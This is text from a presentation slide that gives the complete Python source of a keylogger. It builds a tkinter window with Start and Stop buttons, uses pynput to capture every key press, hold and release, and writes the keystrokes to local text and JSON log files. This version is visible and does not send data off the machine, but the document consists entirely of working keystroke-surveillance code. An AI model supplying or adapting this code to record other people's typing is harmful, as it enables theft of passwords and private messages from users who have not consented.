

CODE FOR KEYLOGGER

import tkinter as tk
from tkinter import *
from pynput import keyboard
import json

keys_used = []
flag = False
keys = ""

def generate_text_log(key):
    with open('key_log.txt', "w") as keys_file:
        keys_file.write(key)

def generate_json_file(keys_used):
    with open('key_log.json', 'w') as key_log:
        json.dump(keys_used, key_log)

def on_press(key):
    global flag, keys_used, keys
    if not flag:
        keys_used.append({'Pressed': str(key)})
        flag = True
    else:
        keys_used.append({'Held': str(key)})
    generate_json_file(keys_used)

def on_release(key):
    global flag, keys_used, keys
    keys_used.append({'Released': str(key)})
    flag = False
    generate_json_file(keys_used)
    keys += str(key)
    generate_text_log(keys)

def start_keylogger():
 global listener
 listener = keyboard.Listener(on_press=on_press, on_release=on_release)
 listener.start()
 label.config(text="[+] Keylogger is running!\n[!] Saving the keys in 'key_log.txt' and 'key_log.json'")
 start_button.config(state='disabled')
 stop_button.config(state='normal')

def stop_keylogger():
 global listener
 listener.stop()
 label.config(text="Keylogger stopped.")
 start_button.config(state='normal')
 stop_button.config(state='disabled')

root = Tk()
root.title("Keylogger")

label = Label(root, text='Click "Start" to begin keylogging.')
label.config(anchor=CENTER)
label.pack(pady=20)

start_button = Button(root, text="Start", command=start_keylogger)
start_button.pack(side=LEFT, padx=10, pady=10)

stop_button = Button(root, text="Stop", command=stop_keylogger, state='disabled')
stop_button.pack(side=RIGHT, padx=10, pady=10)

root.geometry("300x150")

root.mainloop()